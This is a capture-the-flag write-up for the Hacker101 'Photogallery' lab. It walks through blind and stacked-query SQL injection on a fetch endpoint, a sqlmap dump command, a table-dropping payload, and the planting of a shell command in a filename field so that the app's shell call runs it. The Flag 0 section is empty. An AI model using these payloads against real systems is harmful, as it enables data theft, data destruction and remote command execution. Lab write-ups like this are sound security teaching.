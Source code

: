 # Photogallery

This ctf took me quit a while to figure out. I personally found flag 1 first then flag 0 and after another day or two flag 2. I believe that most people will get flag 1 before flag 0. So i will write up flag 1 first. It's pretty straight forward.

## Flag 1 – SQL Injection

Navigating the website you will notice that there is not a lot to do. We can't buy anything click on anything or comment. Checking out the source code of the website tells you that the images are being loaded from the url `/fetch?id=X` (X is a placeholder for a number). Browsing to that url you will see a site with the raw image data. The interesting part however is the url itself. Looking at the url parameter and replacing the value with sth like 2-1 for example shows that the application is vulnerable to sql injection. Great!

### Blind injection
Blind sql injeciton can be used to gain information about the database layout. For example using the following query shows the length of the db_name :

```
.../fetch?id=4 OR LENGTH(database()) = 6
```
from there it is possible to guess the name using queries similar to the following:
```
.../fetch?id=4 or database() LIKE '______'
```
You can replace a single '_' with any sign in order to guess the sign at that position. Once you guessed the correct value you can replace the next underscore. The underscore characters serve as a wildcard for a single character. It is important to use 6 underscores since that is the length of the databse name.

After obtaining the database name the following query can be used to find out the number of tables in the database:
```
.../fetch?id=1 AND (SELECT Count(*) FROM information_schema.tables WHERE table_schema=database())=2
```

After that i went after the table names. There is a great tutorial on doing this [here](https://delayma.wordpress.com/2019/01/09/magical-image-gallery-1-3-hacker-101-ctf/).

The db layout looks like this :
DB Layout:
  db_name: "level5"   
  num_of_tables : 2  
  tables_names : albums, photos  

For the extraction of the data i used sqlmap. I dumped the entire database using the following command:
```
sqlmap -u ".../fetch?id=2" --method GET --dump -D level5 -p id --code 200 --skip-waf --random-agent --threads 10 -o
```

You will find flag 1 in the entry for the invisible kitty.


## Flag 0 – SQL Injection



### Union based injection


## Flag 2 – Stacked Queries

This flag is pretty straight forward if you read all of the hints carefully and already got acces to the source code from flag 0. Using stacked queries its possible to execute alot of sql commands. I tested this using :
```
.../fetch?id=1; DROP Table photos
```

This command drops the photo table and breaks the app entirely. Afterwards you have to request a new instance from the hacker101 ctf page. This however shows that the second command gets executed.
Nice! Now where to go from here ? Try more commands !
Next i tried to insert a new photo with id 4 :
```
../fetch?id=1; INSERT INTO photos(id,title,parent, filename) VALUES(4,test,1,files/adorable.jpg);
```
I'm using adorable.jpg because i know the image exists and the server could open it if everything else checks out. The command did not work however and there are actually multiple reasons.
  1. The data in the title and filename field are somekind of text meaning of type char or varchar. When inserting the values it is important to use '' around these values: ```... VALUES(4,'test', 1, 'files/adorable.jpg');```  
  2. From what i can tell commands like UPDATE and INSERT requiere the use of transactions. I noticed that something wasn't working while running the above statement. The hint helped me figure it out. In the end i used the following command:
  
```
../fetch?id=1; START TRANSACTION; INSERT INTO photos(id,title,parent, filename) VALUES(4,'test',1,'files/adorable.jpg'); COMMIT;
```

After trying out different queries i took another look at the source code and especially the size calculation of the albums.
```
        rep += '' cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id,))
	fns = []	
        for pid, ptitle, pfn in cur.fetchall():
            rep += '%s' % (pid, sanitize(ptitle))
            fns.append(pfn)
            rep += 'Space used: ' +
	    subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns\
	    ), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + ''
```
From the main page i knew that it was broken since it always shows 0. The reason seems to be that it always adds 'files/' before each filename ending in sth like 'files/files/adorable.jpg'. The interesting part however is that the filename from the database gets added to a bash command. After realizing that i extracted the command from the file and tested the bash command locally on my machine aswell as the commands i wanted to inject. For the commands to run properly on the remote machine i needed 2 things:
  1. A way to see the output of the command on the remote machine  
  2. A way to inject my command into the database.

How to run a command ?
For that i build a string i want to inject into the db. First i terminate the statement with a ; similar to stacked queries in sql. Then i chose a command, f.e. ```whoami```. Finally i needed a way to see the output. For that i decided to create a new file on the machine using >. The final command loos like this ```; whoami > test.txt```.
I added it to the database with this :
```
.../fetch?id=1;START TRANSACTION; UPDATE photos SET title='3test1', filename='; whoami > test.txt' WHERE id=3; COMMIT;
```
Impotant is the usage of transactions and the '' surrounding the values. After using the above command i navigated to the main page in order for it to execute. Now i only needed to take a look at the test.txt file. There are multiple ways to look at the file. I chose to add it to the database and access it through fetch + id.

...










